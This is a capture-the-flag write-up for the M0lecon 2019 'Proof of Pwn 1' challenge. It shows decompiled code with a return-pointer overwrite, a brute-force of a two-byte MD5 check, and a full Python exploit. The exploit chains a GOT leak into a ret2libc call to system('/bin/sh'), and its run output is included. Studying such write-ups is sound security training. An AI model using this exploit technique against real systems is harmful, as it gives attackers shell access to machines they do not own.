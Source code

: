 # M0lecon CTF 2019 - Proof of Pwn 1

We are given an ELF binary with no stack canaries protections and no PIC.
```
$ checksec proof_of_pwn 
[INFO]:  Opening binary proof_of_pwn

arch                            x86
bits                            64
endian                          little
os                              linux
static                          False
stripped                        True
canary                          False
nx                              True
pic                             False
relocs                          False
sanitiz                         False
```

The vulnerability lies in this function

```c
void __cdecl sub_400BED()
{
  __int64 v0; // [rsp+20h] [rbp-20h]
  __int64 v1; // [rsp+28h] [rbp-18h]
  __int64 v2; // [rsp+30h] [rbp-10h]
  __int64 v3; // [rsp+38h] [rbp-8h]
  __int64 vars0; // [rsp+40h] [rbp+0h]
  __int64 retaddr; // [rsp+48h] [rbp+8h]

  sub_400A68(&v0);
  sub_400ABF(&v0);
  puts("Now give me your block data: ");
  HIDWORD(v3) = read(0, &qword_6020E0, 0x80uLL);
  if ( !(unsigned int)sub_400B14((__int64)&qword_6020E0, SHIDWORD(v3), (__int64)&v0) )
  {
    puts("Go mine somewhere else!!\n");
    exit(1);
  }
  v0 = qword_602100;
  v1 = qword_602108;
  v2 = qword_602110;
  v3 = qword_602118;
  vars0 = qword_602120;
  retaddr = qword_602128; // WE CONTROL THE RETURN POINTER
  puts("Block successfully mined. Bye!\n");
}
```

To reach the ret instruction we need to pass a check, otherwise the program will exit.

```c
signed __int64 __fastcall sub_400B14(__int64 a1, __int64 a2, __int64 a3)
{
  __int64 v4; // [rsp+8h] [rbp-98h]
  char v5[16]; // [rsp+20h] [rbp-80h]
  char v6; // [rsp+30h] [rbp-70h]
  int j; // [rsp+98h] [rbp-8h]
  int i; // [rsp+9Ch] [rbp-4h]

  v4 = a3;
  MD5_Init(&v6);
  MD5_Update(&v6, a1, a2);
  MD5_Final(v5, &v6);
  for ( i = 0; i <= 15; ++i )
    printf("%02x", (unsigned __int8)v5[i]);
  putchar(10);
  for ( j = 0; j <= 1; ++j )
  {
    if ( *(_BYTE *)(j + v4) != v5[j] )
      return 0LL;
  }
  return 1LL;
}
```

Since only the first two bytes of the hash are checked we can try to bruteforce it.

We're gonna trigger the vulnerability a first time to execute a short ropchain which will leak an address from the GOT, to compute the libc_base, and then we'll return to our vulnerability.

Now we know the addresses of functions and strings from libc in memory.

We're gonna exploit the vulnerability a second time to hijack the execution to `system("/bin/sh")`

### Exploit
```python
def brute_payload(proof, pay):
	def md5(data):
		import hashlib
		m = hashlib.md5()
		m.update(data)
		return m.hexdigest().encode("utf-8")
	i = 0
	while True:
		pay2 = (pay+str(i).encode("utf-8"))[:128]
		if proof[:4] == md5(pay2)[:4]:
			return pay2
		i += 1

from pwnapi import *

log.level      = 1
libc           = ELF("./libc.so.6")
context.binary = ELF("./proof_of_pwn")
p              = context.getprocess()

proof = p.recvline().split()[-1]
log.info("required proof: {}".format(proof.decode("utf-8")))

rop       = p64(context.binary.findgadgetbystr("pop rdi;ret"))
rop      += p64(context.binary.sym.got.puts)
rop      += p64(context.binary.sym.plt.puts)
rop      += p64(0x00400bed) # check function
payload   = brute_payload(proof, fit({72:rop}))

p.sendafter(b"\n", payload)
p.recvuntil(b"\n\n")

puts      = u64(p.recvline().strip().ljust(8, b"\x00"))
libc_base = puts - libc.sym.puts
system    = libc_base + libc.sym.system
binsh     = libc_base + next(libc.search("/bin/sh"))
log.info("libc base:      0x{:x}".format(libc_base))
log.info("system:         0x{:x}".format(system))
log.info("binsh:          0x{:x}".format(binsh))

proof = p.recvline().split()[-1]
log.info("required proof: {}".format(proof.decode("utf-8")))

rop      = p64(context.binary.findgadgetbystr("pop rdi;ret"))
rop     += p64(binsh)
rop     += p64(system)
rop     += p64(context.binary.findgadgetbystr("mov eax, 0;leave;ret"))
payload  = brute_payload(proof, fit({72:rop}))

p.sendafter(b": \n", payload)
p.recvuntil(b"\n\n")

p.sendline(b"cat flag.txt; exit")
log.info("flag:           {}".format(p.recvall().decode("utf-8")))

p.close()
```

### Output
```
$ python exploit.py     
[INFO]:  Opening binary ./libc.so.6

arch                            x86
bits                            64
endian                          little
os                              linux
static                          False
stripped                        True
canary                          True
nx                              True
pic                             True
relocs                          False
sanitiz                         False

[INFO]:  Opening binary ./proof_of_pwn

arch                            x86
bits                            64
endian                          little
os                              linux
static                          False
stripped                        True
canary                          False
nx                              True
pic                             False
relocs                          False
sanitiz                         False

[INFO]:  Process started with PID 17148 ./proof_of_pwn
[INFO]:  required proof: 289510e3b590959fb0b0177fe57612d3
[INFO]:  libc base:      0x7f10f5e8e000
[INFO]:  system:         0x7f10f5ed3390
[INFO]:  binsh:          0x7f10f601ad57
[INFO]:  required proof: b222d1572a57e35c7416ff32e234f90a
[INFO]:  flag:           ptm{p00r_8rut3f0rc1ng_c4n_h3lp}
[INFO]:  Process 17148 exited with code -7
```

You can dowload [here](https://github.com/ndaprela/CTF/tree/master/2019/m0lecon/proof_of_pwn1) the challenge and the exploit.
